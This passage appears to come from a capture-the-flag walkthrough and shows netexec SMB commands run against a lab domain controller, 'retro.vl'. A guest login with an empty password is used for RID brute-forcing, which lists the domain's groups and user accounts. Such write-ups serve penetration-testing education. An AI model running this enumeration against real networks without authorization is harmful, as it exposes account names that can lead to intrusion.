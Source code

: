 #### User Enumeration

The `--users` flag isn’t able to read anything:

```

oxdf@hacky$ netexec smb dc.retro.vl -u guest -p '' --users
SMB         10.129.234.44   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.44   445    DC               [+] retro.vl\guest: 

```

I am able to RIDcycle:

```

oxdf@hacky$ netexec smb dc.retro.vl -u guest -p '' --rid-brute
SMB         10.129.234.44   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.44   445    DC               [+] retro.vl\guest: 
SMB         10.129.234.44   445    DC               498: RETRO\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.44   445    DC               500: RETRO\Administrator (SidTypeUser)
SMB         10.129.234.44   445    DC               501: RETRO\Guest (SidTypeUser)
SMB         10.129.234.44   445    DC               502: RETRO\krbtgt (SidTypeUser)
SMB         10.129.234.44   445    DC               512: RETRO\Domain Admins (SidTypeGroup)
SMB         10.129.234.44   445    DC               513: RETRO\Domain Users (SidTypeGroup)
SMB         10.129.234.44   445    DC               514: RETRO\Domain Guests (SidTypeGroup)
SMB         10.129.234.44   445    DC               515: RETRO\Domain Computers (SidTypeGroup)
SMB         10.129.234.44   445    DC               516: RETRO\Domain Controllers (SidTypeGroup)
SMB         10.129.234.44   445    DC               517: RETRO\Cert Publishers (SidTypeAlias)
SMB         10.129.234.44   445    DC               518: RETRO\Schema Admins (SidTypeGroup)
SMB         10.129.234.44   445    DC               519: RETRO\Enterprise Admins (SidTypeGroup)
SMB         10.129.234.44   445    DC               520: RETRO\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.234.44   445    DC               521: RETRO\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.44   445    DC               522: RETRO\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.234.44   445    DC               525: RETRO\Protected Users (SidTypeGroup)
SMB         10.129.234.44   445    DC               526: RETRO\Key Admins (SidTypeGroup)
SMB         10.129.234.44   445    DC               527: RETRO\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.234.44   445    DC               553: RETRO\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.234.44   445    DC               571: RETRO\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.44   445    DC               572: RETRO\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.44   445    DC               1000: RETRO\DC$ (SidTypeUser)
SMB         10.129.234.44   445    DC               1101: RETRO\DnsAdmins (SidTypeAlias)
SMB         10.129.234.44   445    DC               1102: RETRO\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.234.44   445    DC               1104: RETRO\trainee (SidTypeUser)
SMB         10.129.234.44   445    DC               1106: RETRO\BANKING$ (SidTypeUser)
SMB         10.129.234.44   445    DC               1107: RETRO\jburley (SidTypeUser)
SMB         10.129.234.44   445    DC               1108: RETRO\HelpDesk (SidTypeGroup)
SMB         10.129.234.44   445    DC               1109: RETRO\tblack (SidTypeUser)

```
